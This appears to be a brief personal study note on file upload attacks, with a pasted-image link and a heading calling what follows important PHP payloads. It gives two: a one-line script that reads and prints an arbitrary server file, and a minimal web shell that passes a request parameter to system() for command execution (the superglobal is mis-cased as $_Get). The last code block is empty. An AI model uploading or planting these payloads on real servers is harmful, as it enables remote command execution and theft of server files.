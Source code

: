 ![[Pasted image 20231129032443.png]]
[[explanation of a new concepts in the file upload  attacks ]]
# some very important   payloads in php language  : 
```php
<?php  echo file_get_contents('/path/of/text/file/that/we/want/to/echo/its/content');   ?> 
```
```php
<?php   echo system($_Get["cmd"]); ?>
```

```php


```
